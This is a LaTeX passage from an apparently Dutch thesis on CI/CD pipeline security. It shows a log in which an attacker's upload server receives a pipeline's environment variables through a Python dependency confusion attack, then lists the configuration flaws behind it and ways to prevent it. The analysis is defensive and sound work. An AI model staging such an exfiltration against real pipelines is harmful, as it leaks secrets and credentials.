  
\includegraphics[scale=0.45]{graphics/pythondependencyattack.png}
\caption{\label{fig:3thattack} Pipeline logs van de python dependency confusion aanval.}
\end{figure}

\begin{figure}[H]
  \begin{lstlisting}[language=bash, style=bashstyle]
    File upload available at /upload
    Serving HTTP on :: port 3030 (http://[::]:8080/) ...
    ::1 - - [12/May/2023 14:33:35] [Uploaded] "tmpytjp06_7" --> /home/ubuntu/tmpytjp06_7
    ::1 - - [12/May/2023 14:33:35] "POST /upload HTTP/1.1" 204 -
  \end{lstlisting}
\caption{\label{fig:4thattack} Aanvaller ontvangt de omgevingsvariabelen.}
\end{figure}

\subsubsection{\IfLanguageName{dutch}{Problemen met de pipeline configuratie}
{Issues with the pipeline configuration}}
\label{sec:Problemen met de pipeline configuratie}

\begin{itemize}
  \item Dependencies worden niet geverifieerd door gebruik te maken van een checksum of handtekening.
  \item Python-dependencies worden niet van een vetrouwde bron gehaald er wordt enkel gekeken naar de laatste bestaande versie.
  \item Uitvoeren van onbekende dependencies gebeurt niet in een geïsoleerde omgeving.
  \item Belangrijke informatie is beschikbaar als omgevingsvariabelen.
  \item De machine waarop de pipeline uitgevoerd wordt, laat connecties naar buiten toe.
\end{itemize}

\subsubsection{\IfLanguageName{dutch}{Hoe deze aanval te voorkomen}
{Preventive measures against this attack}}
\label{sec:Hoe deze aanval te voorkomen}

\begin{itemize}
  \item Het is aan te raden om een proxyserver\footnote{ Een proxyserver fungeert als een tussenstation tussen jouw systeem en de externe bronnen waar de afhankelijkheden vandaan worden gehaald.} te gebruiken bij het ophalen van externe afhankelijkheden. Door gebruik te maken van een proxyserver kun je extra filters en beveiligingsmechanismen implementeren. 
  \item Zorg ervoor dat de Python-dependencies geverifieerd worden wanneer deze gebruikt worden in een pipeline omgeving.
  \item Maak gebruik van enkel bepaalde versie van dependencies en enkel van vertrouwde bronnen.
  \item Probeer de toegang tot secrets zoveel mogelijk te beperken en zorg ervoor dat deze niet zomaar ingelezen kunnen worden in de pipeline.
  \begin{itemize}
    \item Maak gebruik van secret beheer tools zoals bijvoorbeeld AWS secrets manager die gebruikt is in deze scriptie.
    \item Beperk de toegang de de secrets, verleen alleen de noodzakelijke toegangsrechten aan personen of systemen die de secrets nodig hebben.
    \item Gebruik RBAC om toegang tot de secrets te verlenen.
    \item Encrypteer omgevingsvariabelen in plaats van deze gevoelige informatie rechtstreeks te gebruiken in de pipeline.
  \end{itemize}
  \item De runners waar de pipeline wordt uitgevoerd, moeten geconfigureerd worden zodat er enkle minimaal toegang mogelijk is tot en vanaf de machine.
  \item Zorg ervoor dat de pipelinebestanden worden gecontroleerd voordat de pipeline wordt uitgevoerd.
  \item Zorg voor geïsoleerde nodes om niet-gecontroleerde code uit te voeren.
  \item Zorg ervoor dat third-party artefacten goedgekeurd worden en dat er ten minstens een integriteits controle is wanneer gebruik wordt gemaakt van third-party elementen in de pipeline.
\end{itemize}

